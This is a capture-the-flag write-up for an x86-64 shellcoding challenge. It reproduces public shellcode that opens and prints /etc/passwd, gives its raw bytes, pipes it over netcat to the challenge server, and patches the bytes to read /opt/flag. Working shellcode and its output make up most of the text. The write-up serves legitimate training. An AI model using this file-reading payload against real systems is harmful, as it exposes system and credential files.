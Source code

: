 # Shellcoding/shellcoding 0x01

### Challenge

- Category: Shellcoding
- Author: nordbo
- Description: The idea of these challenges is to write x86-64 shellcode to obtain the flag which is located in /opt/flag. As you progress, the challenges gets harder. The source code and an example pwntools template to communicate with the server is provided. pwn.college has a great introduction to assembly and shellcoding Good luck!
- Service: `nc io.ept.gg 30011`
- Downloads
  - example.py
  - sc01
  - sc01.c

### Writeup by
- hag

---

## `nc io.ept.gg 30011`

```BASH
$ nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
>
```

## Read File Shellcode

I found the following shellcode through Google: http://shell-storm.org/shellcode/files/shellcode-878.php.

```s
BITS 64
; Author Mr.Un1k0d3r - RingZer0 Team
; Read /etc/passwd Linux x86_64 Shellcode
; Shellcode size 82 bytes
global _start

section .text

_start:
jmp _push_filename
  
_readfile:
; syscall open file
pop rdi ; pop path value
; NULL byte fix
xor byte [rdi + 11], 0x41
  
xor rax, rax
add al, 2
xor rsi, rsi ; set O_RDONLY flag
syscall
  
; syscall read file
sub sp, 0xfff
lea rsi, [rsp]
mov rdi, rax
xor rdx, rdx
mov dx, 0xfff; size to read
xor rax, rax
syscall
  
; syscall write to stdout
xor rdi, rdi
add dil, 1 ; set stdout fd = 1
mov rdx, rax
xor rax, rax
add al, 1
syscall
  
; syscall exit
xor rax, rax
add al, 60
syscall
  
_push_filename:
call _readfile
path: db "/etc/passwdA"
  
Shellcode:

\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41
```

## Testing Shellcode

The shellcode reads and outputs `/etc/passwd`, which is not exactly what we want, but let's try the shellcode anyway:

```bash
$ echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
> root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
ctf:x:1000:1000::/home/ctf/:/bin/bash
```


## Modifying Shellcode

But we need flags, not users! 🚩😎 We could modify the assembler listing and reassemble, but that sounds like a lot of work. Luckily the compiled shellcode is included at the bottom. Let's just hack at the raw bytes.

### Read `/etc/passwd` shellcode

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
```

Let's change the filename first.

```bash
$ echo -n "/etc/passwd" | hexdump -C
00000000  2f 65 74 63 2f 70 61 73  73 77 64                 |/etc/passwd|
```

`/etc/passwd` is `\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64` in hex. It's also `11 (\x0b)` characters long.

We need to change the filename to `/opt/flag`.

```bash
$ echo -n "/opt/flag" | hexdump -C
00000000  2f 6f 70 74 2f 66 6c 61  67                       |/opt/flag|
```

`/opt/flag` is `\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67` in hex and is `9 (0x09)` characters long.

We can find the relevant parts in the original shellcode:

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41" | nc io.ept.gg 30011
```

The new shellcode becomes:

```bash
echo -e "\xeb\x3f\x5f\x80\x77\x09\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x41" | nc io.ept.gg 30011
```

Diff:

![](01.png)


## Exploit & 🚩

```bash
$ echo -e "\xeb\x3f\x5f\x80\x77\x09\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x6f\x70\x74\x2f\x66\x6c\x61\x67\x41" | nc io.ept.gg 30011
Welcome to the shellcoding challenges!
This is level 1.
The flag is in /opt/flag
Enter your shellcode, maximum 0x200 bytes.
> EPT{welcome_t0_sh3llc0ding!}
```
